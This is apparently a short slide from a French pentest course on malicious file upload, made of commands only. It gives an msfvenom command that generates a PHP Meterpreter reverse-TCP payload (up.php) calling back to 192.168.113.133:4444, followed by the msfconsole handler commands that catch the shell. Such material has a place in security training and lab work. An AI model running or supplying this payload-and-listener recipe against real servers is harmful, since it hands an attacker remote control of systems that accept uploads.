

File Upload : (upload un fichier malvaillant et executé par le serveur)
Coté malware :
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.113.133 LPORT=4444 -f raw > up.php
Coté listener :
msfconsole
use exploit/multi/handler
Set payload php/meterpreter/reverse_tcp
Set lport 4444
Set lhost 192.168.113.133
run